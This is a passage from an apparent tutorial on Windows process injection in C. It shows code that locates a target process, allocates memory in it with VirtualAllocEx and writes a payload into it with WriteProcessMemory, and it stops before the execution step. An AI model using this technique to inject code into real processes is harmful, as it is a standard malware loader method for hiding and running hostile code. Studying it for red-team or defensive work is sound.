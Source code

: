 ```c
            break;
        }
    }

    while( Process32Next(process_snapshot, &current_process) );

    CloseHandle( process_snapshot );

    if( NULL == target_process )
    {
        // printf( "[!] Could not find target or OpenProcess() failed!\n" );
        return 1;
    }
```

Once the PID has been validated with a running process and a handle to the process has been obtained, the next step is to allocate memory in the target process using the `VirtualAllocEx` API. We’ll be allocating enough memory by whatever the size of the payload is, and we’ll assign it with read and privileges, we’ll later modify this region of memory to allow it to execute in the later step. The API returns a pointer to where the memory was allocated in the process. Read the Microsoft docs for specific information about this function. Below is the code for allocating memory in the target process.

```c
    size_t payload_size = sizeof( payload );
    LPVOID target_process_allocated_memory = NULL;
    
    target_process_allocated_memory = VirtualAllocEx( target_process, NULL, payload_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );

    if( NULL == target_process_allocated_memory )
    {
        // printf( "[!] Could not allocate memory!\n" );
        return 1;
    }
```

The next step is to inject our payload into the target memory process to where we allocated the memory in the previous step:

```c
    //
    // WRITE TO ALLOCATED MEMORY
    //
    BOOL return_check = FALSE;

    return_check = WriteProcessMemory( target_process, target_process_allocated_memory, payload, payload_size, NULL );

    if( FALSE == return_check )
    {
        // printf( "[+] WriteProcessMemory returned false!\n" );
        return 1;
    }
```
